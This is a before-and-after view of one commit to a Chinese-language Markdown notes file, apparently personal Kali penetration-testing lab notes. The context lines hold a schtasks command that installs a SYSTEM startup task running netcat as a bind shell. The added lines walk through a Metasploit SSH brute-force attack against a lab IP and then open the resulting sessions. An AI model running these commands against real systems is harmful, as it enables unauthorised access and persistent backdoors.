

Before and after one commit to swdxiaoxiao/witer_markdown, a Markdown page: 笔记.md, 2 parts joined by grey strips. Rendered like a GitHub page; blank space fills up the shorter version.

Commit message:
修改文件: 笔记.md

```diff
--- a/笔记.md
+++ b/笔记.md
@@ -570,6 +570,9 @@ IPv6由128个bit组成
 
 
 # Kali
+
+## windows
+
 进入msfconsloe
 >msfconsloe
 >>安静的进入
@@ -651,3 +654,31 @@ IPv6由128个bit组成
 >shell
 >chcp 65001
 >schtasks /create /tn "nc" /ru system /tr "c:\windows\system32\nc.exe -Ldp 444 -e cmd.exe" /sc onstart
+
+## Linux
+### 暴力破解
+进入msfconsole
+> msfconsole -q
+
+搜索并选择工具
+>search ssh_login
+>use 0
+>>设置参数
+>>==//设置用户名 #929292==
+>>==set username msfadmin #929292==
+>>//设置密码本
+>>set pass_file /root/passwd
+>>==//设置攻击目标 #929292==
+>>set rhosts 192.168.10.143
+>==//运行工具 #929292==
+>run
+
+查看并切换会话
+>==//查看所有会话 #929292==
+>sessions
+>==//选择会话（id） #929292==
+>sessions 1
+>==//退出会话 #929292==
+
+从工具返回msfconsole
+>back
```
